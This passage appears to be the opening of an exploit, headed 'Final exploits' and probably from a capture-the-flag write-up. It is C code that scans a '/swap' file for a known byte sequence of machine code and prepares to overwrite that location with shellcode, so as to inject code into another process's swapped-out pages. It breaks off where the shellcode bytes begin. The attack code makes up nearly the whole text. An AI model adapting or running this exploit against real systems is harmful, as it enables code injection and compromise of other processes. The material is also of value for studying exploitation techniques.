 Final exploits 

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <inttypes.h>
#include <stdint.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#define PAGE_SIZE 0x80000
#define swap_size 0xa00000

const unsigned char NEEDLE[] = {
    0x48, 0x63, 0xFF, 0xB8, 0xE7, 0x00, 0x00, 0x00, 0x0F, 0x05, 0xBA, 0x3C, 0x00, 0x00, 0x00, 0x48, 
    0x89, 0xD0, 0x0F, 0x05, 0xEB, 0xF9, 0x48, 0x89, 0xF8, 0x48, 0x89, 0xF7, 0x48, 0x89, 0xD6, 0x48, 
    0x89, 0xCA, 0x4D, 0x89, 0xC2, 0x4D, 0x89, 0xC8, 0x4C, 0x8B, 0x4C, 0x24, 0x08, 0x0F, 0x05, 0xC3
};


unsigned char swap_buf[swap_size];

void die(char *msg){
    printf("[!] %s\n", msg);
    exit(-1);
}

int match(){
    FILE *fp = fopen("/swap", "r+");
    if (fp == NULL) die("open /swap failed");
    int read_cnt = 0;
    while (1){
        int res = fread(swap_buf, 1, swap_size-read_cnt, fp);
        read_cnt += res;
        if (res == 0) {
            if (read_cnt != swap_size) die("read failed");
            break;
        }
    }
    // search for needle 
    unsigned char* res = memmem(swap_buf, swap_size, NEEDLE, sizeof(NEEDLE));
    if (res != NULL){
        size_t offset = res - swap_buf;
        if (fseek(fp, offset, SEEK_SET) == -1) die("fseek failed");
        // 0xcc to debug 
        char sc_buf[0x100];
        memset(sc_buf, 0xcc, sizeof(sc_buf));
        
        unsigned char sc[] = { 
            // needle for padding
            0x48, 0x63, 0xFF, 0xB8, 0xE7, 0x00, 0x00, 0x00, 0x0F, 0x05, 0xBA, 0x3C, 0x00, 0x00, 0x00, 0x48, 
            0x89, 0xD0, 0x0F, 0x05, 0xEB, 0xF9, 0x48, 0x89, 0xF8, 0x48, 0x89, 0xF7, 0x48, 0x89, 0xD6, 0x48, 
            0x89, 0xCA, 0x4D, 0x89, 0xC2, 0x4D, 0x89, 0xC8, 0x4C, 0x8B, 0x4C, 0x24, 0x08, 0x0F, 0x05, 0xC3,
            // real shellcode
```